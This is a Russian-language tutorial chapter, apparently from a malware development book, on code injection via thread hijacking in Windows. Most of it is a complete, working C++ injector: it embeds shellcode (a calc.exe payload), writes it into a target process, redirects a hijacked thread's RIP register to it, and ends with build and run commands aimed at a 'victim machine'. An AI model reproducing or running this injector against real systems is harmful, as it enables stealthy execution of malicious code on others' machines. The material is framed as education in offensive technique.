\newpage
\subsection{16. инъекция кода через захват потока (threat hijacking). Пример простого C++ вредоносного ПО.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}    

### Что это означает?

Сегодня я расскажу об инъекции кода в удаленный процесс через захват потока. Этот метод предполагает внедрение кода путем захвата потоков вместо создания удаленного потока. Существуют методы инъекции кода, когда можно создать поток в другом процессе, используя `CreateRemoteThread` в месте выполнения кода. Я писал об этом [здесь](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html). Или, например, классическая DLL-инъекция через `CreateRemoteThread` и выполнение `LoadLibrary`, передавая аргумент в `CreateRemoteThread`. Мой [пост](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html) о данной технике.    

### Пример

Давайте рассмотрим пример, демонстрирующий эту технику:


```cpp
/*
hack.cpp
code injection via thread hijacking
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/11/23/malware-injection-6.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

unsigned int my_payload_len = sizeof(my_payload);

// get process PID
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

int main(int argc, char* argv[]) {
  DWORD pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE ht; // thread handle
  LPVOID rb; // remote buffer

  HANDLE hSnapshot;
  THREADENTRY32 te;
  CONTEXT ct;

  pid = findMyProc(argv[1]);
  if (pid == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  } else {
    printf("PID = %d\n", pid);

    ct.ContextFlags = CONTEXT_FULL;
    te.dwSize = sizeof(THREADENTRY32);

    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)pid);

    if (ph == NULL) {
      printf("OpenProcess failed! exiting...\n");
      return -2;
    }

    // allocate memory buffer for remote process
    rb = VirtualAllocEx(ph, NULL, my_payload_len,
    MEM_RESERVE | MEM_COMMIT, 
    PAGE_EXECUTE_READWRITE);

    // write payload to memory buffer
    WriteProcessMemory(ph, rb, my_payload, 
    my_payload_len, NULL);

    // find thread ID for hijacking
    hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, NULL);
    if (Thread32First(hSnapshot, &te)) {
      do {
        if (pid == te.th32OwnerProcessID) {
  	  ht = OpenThread(THREAD_ALL_ACCESS, FALSE, te.th32ThreadID);
          break;
  	}
      } while (Thread32Next(hSnapshot, &te));
    }

    // suspend target thread
    SuspendThread(ht);
    GetThreadContext(ht, &ct);
    // update register (RIP)
    ct.Rip = (DWORD_PTR)rb;
    SetThreadContext(ht, &ct);
    ResumeThread(ht);

    CloseHandle(ph);
  }
  return 0;
}
```

Как обычно, для простоты, мы используем 64-битный `calc.exe` в качестве полезной нагрузки.

Как видно, для поиска процесса по имени я использовал функцию `findMyProc` из моего прошлого [поста](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html). Затем функция `main` похожа на мой код из [этого поста](https://cocomelonc.github.io/tutorial/2021/09/18/malware-injection-1.html) о "классической" инъекции кода в удаленный процесс. Единственное отличие в логике: мы захватываем удаленный поток вместо создания нового.

### последовательность действий:

Сначала мы находим целевой процесс:    

{width="80%"}    

Затем, как обычно, выделяем место в целевом процессе для нашей полезной нагрузки:

{width="80%"}    

и записываем нашу полезную нагрузку в выделенную область:

{width="80%"}    

Далее находим идентификатор потока, который мы хотим захватить в целевом процессе. В нашем случае мы получаем идентификатор первого потока в целевом процессе. Мы используем `CreateToolhelp32Snapshot`, чтобы создать снимок потоков целевого процесса и перечислить их с помощью `Thread32Next`. Это даст нам идентификатор потока, который мы будем захватывать:    

{width="80%"}    

Затем приостанавливаем целевой поток, который мы хотим захватить:

{width="80%"}    

После этого получаем контекст целевого потока:    

{width="80%"}    

Обновляем регистр `RIP` целевого потока (указатель инструкций в 64-битной архитектуре), чтобы он указывал на нашу полезную нагрузку:    

{width="80%"}    

Но здесь есть один нюанс, который называется "аномалия SetThreadContext". В некоторых процессах изменяются только регистры `RAX`, `RCX`, `RDX`, `R8-R11`, в других (например, Explorer, Edge) они игнорируются. Лучше не полагаться на `SetThreadContext` для установки этих регистров.    

Фиксируем захваченный поток:    

{width="80%"}    

И на следующем шаге возобновляем захваченный поток:    

{width="80%"}    

Как видите, это не так уж и сложно. Давайте скомпилируем этот вредоносный код:    
```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive >/dev/null 2>&1
```

{width="80%"}    

Затем на машине жертвы сначала запускаем `notepad.exe`, а затем выполняем нашу программу:    

```powershell
.\hack.exe notepad.exe
```

{width="80%"}    

и наш вредоносный код продолжает работать даже после закрытия целевого процесса `notepad.exe`:

{width="80%"}    

Как видите, наша логика работает идеально!

[Thread execution hijacking](https://attack.mitre.org/techniques/T1055/003/)    
[CreateToolhelp32Snapshot](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot)          
[Process32First](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32first)         
[Process32Next](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32next)       
[strcmp](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/strcmp-wcscmp-mbscmp?view=msvc-160)         
[Taking a Snapchot and Viewing Processes](https://docs.microsoft.com/en-us/windows/win32/toolhelp/taking-a-snapshot-and-viewing-processes)         
[Thread32First](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-thread32first)    
[Thread32Next](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-thread32next)    
[CloseHandle](https://docs.microsoft.com/en-us/windows/win32/api/handleapi/nf-handleapi-closehandle)        
[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)      
[SuspendThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-suspendthread)    
[GetThreadContext](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-getthreadcontext)    
[SetThreadContext](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-setthreadcontext)    
[ResumeThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-resumethread)    
["Classic" code injection](https://cocomelonc.github.io/tutorial/2021/09/18/malware-injection-1.html)    
["Classic" DLL injection](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html)    
[исходный код на Github](https://github.com/cocomelonc/2021-11-23-malware-injection-6)    
